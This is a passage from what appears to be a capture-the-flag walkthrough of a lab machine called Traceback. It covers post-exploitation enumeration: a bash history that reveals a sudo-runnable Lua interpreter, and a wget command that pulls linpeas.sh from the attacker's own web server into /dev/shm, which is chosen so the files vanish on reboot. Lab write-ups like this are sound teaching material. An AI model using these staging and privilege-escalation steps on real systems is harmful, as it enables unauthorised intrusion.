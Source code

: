 Contact me if you have any question.

webadmin@traceback:/home/webadmin$

Looking at webadmin's home directory in more detail, we find that the .bash\_history file has some content. Looking at that file, we get:

webadmin@traceback:/home/webadmin$ ls -al

total 44

drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 2020 .

drwxr-xr-x 4 root root 4096 Aug 25 2019 ..

-rw------- 1 webadmin webadmin 105 Mar 16 2020 .bash\_history

-rw-r--r-- 1 webadmin webadmin 220 Aug 23 2019 .bash\_logout

-rw-r--r-- 1 webadmin webadmin 3771 Aug 23 2019 .bashrc

drwx------ 2 webadmin webadmin 4096 Aug 23 2019 .cache

drwxrwxr-x 3 webadmin webadmin 4096 Aug 24 2019 .local

-rw-rw-r-- 1 webadmin webadmin 1 Aug 25 2019 .luvit\_history

-rw-r--r-- 1 webadmin webadmin 807 Aug 23 2019 .profile

drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 2020 .ssh

-rw-rw-r-- 1 sysadmin sysadmin 122 Mar 16 2020 note.txt

webadmin@traceback:/home/webadmin$ cat .bash\_history

ls -la

sudo -l

nano privesc.lua

sudo -u sysadmin /home/sysadmin/luvit privesc.lua

rm privesc.lua

logout

So this looks like webadmin can run a program /home/sysadmin/luvit as the user sysadmin using sudo and pass it a Lua script.

Let us run LinPEAS and see what it finds. To get linpeas.sh we can run a python3 web server from our machine and then use wget from Traceback. Copy linpeas.sh into a directory and then run:

python3 -m http.server 8000

On Traceback, we can fetch linpeas.sh into a temporary directory /dev/shm. The benefit of using this directory rather than /tmp is that when the machine gets rebooted, the /dev/shm will be cleared, cleaning up any files we might have forgotten. Once downloaded, we change the permissions to execute and then run, putting the output into a file:

webadmin@traceback:/dev/shm$ wget http://10.10.14.117:8000/linpeas.sh

--2020-12-27 20:31:05-- http://10.10.14.117:8000/linpeas.sh
